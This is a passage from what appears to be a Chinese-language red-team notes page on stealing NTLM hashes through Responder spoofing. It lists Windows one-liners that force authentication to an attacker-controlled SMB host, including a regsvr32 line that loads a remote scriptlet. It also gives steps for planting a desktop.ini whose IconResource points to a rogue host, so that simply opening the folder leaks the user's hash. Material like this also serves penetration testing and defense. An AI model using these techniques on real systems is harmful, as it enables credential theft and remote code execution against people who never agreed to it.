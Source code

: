 ```bash
mstsc.exe \hostshare #(noisy, error)
netcfg.exe -l \hostshare -c p -i foo
regsvr32 /s /u /i://x.x.x.x/@xxx scrobj.dll
echo 1 > //192.168.0.1/abc
pushd \\192.168.0.1\abc
cmd /k \\192.168.0.1\abc
cmd /c \\192.168.0.1\abc
start \\192.168.0.1\abc
mkdir \\192.168.0.1\abc
type\\192.168.0.1\abc
dir\\192.168.0.1\abc
```

### 通过文件获取hash

**图标**

可以通过图标资源来代替代 net use 这条命令，比如我们可以创建一个文件夹 test，并在 test 下再创建一个文件夹如 test2，通过给 test2 设置其他图标，能在 test2 文件夹下生成一个隐藏的系统文件 desktop.ini，而通过修改设置可以使 desktop.ini 可见，最后编辑这个文件，将图标资源指向一个不存在的主机，打开 test 文件夹之后即可获取 hash 值。

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/5.png)

此时 desktop.ini 文件已生成，需要修改配置使 desktop.ini 文件, 将原本的 IconResource 路径修改，改为如下格式后保存即可
```
IconResource=\\hello-world\test\SHELL32.dll,2
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/6.png)
